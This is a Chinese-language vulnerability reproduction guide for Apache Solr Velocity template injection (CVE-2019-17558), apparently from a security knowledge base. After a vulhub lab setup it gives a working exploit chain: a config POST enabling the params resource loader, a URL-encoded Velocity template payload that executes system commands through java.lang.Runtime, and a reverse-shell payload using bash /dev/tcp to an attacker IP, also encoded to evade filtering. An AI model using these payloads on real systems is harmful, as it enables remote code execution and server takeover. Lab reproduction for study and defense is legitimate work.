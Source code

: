 ```yaml
---
title: Apache Solr Velocity模板远程执行 CVE-2019-17558
---
```


# Apache Solr Velocity模板远程执行 CVE-2019-17558

## 漏洞描述
2019年10月末，GitHub代码中安全研究员S00pY发布一个Apache Solr Velocity模版注入远程命令执行的POC，发现网络上出现针对Apache Solr服务器的远程代码执行漏洞。该漏洞是由于Velocity模板存在注入所致（Velocity是一个基于Java的模板引擎，可让使用者通过模板语言引用Java中定义的对象）。攻击者在知道Solr服务器上Core名称后，先把params.resource.loader.enabled设置为true（就可加载指定资源），再进行远程执行命令。

## 影响版本
<a-checkbox checked>Apache Solr 5.x 至 8.2.0</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d
```

创建一个solr核心test
```shell
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现
打开后获取 Core 信息

![eba902b3-616d-4c1d-b357-2ab754df6d8b](../../../.vuepress/public/img/eba902b3-616d-4c1d-b357-2ab754df6d8b.png)

访问Core的config配置信息时，通过POST请求把`{% em type="red" %}params.resource.loader.enabled{% endem %}`设置为 True，再通过精心构造的get请求即可RCE，此时用户就可以加载指定资源，构造一个能执行命令的恶意请求

设置`params.resource.loader.enabled为True`

![fde10f99-354f-45bf-85ab-9abab467f8c1](../../../.vuepress/public/img/fde10f99-354f-45bf-85ab-9abab467f8c1.png)

```shell
POST /solr/test/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

再使用POC造成命令执行

```shell
/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20220307152918862](../../../.vuepress/public/img/image-20220307152918862.png)

反弹hell，因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
```

POC需要`Urlencoding`进行编码才能绕过

```
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

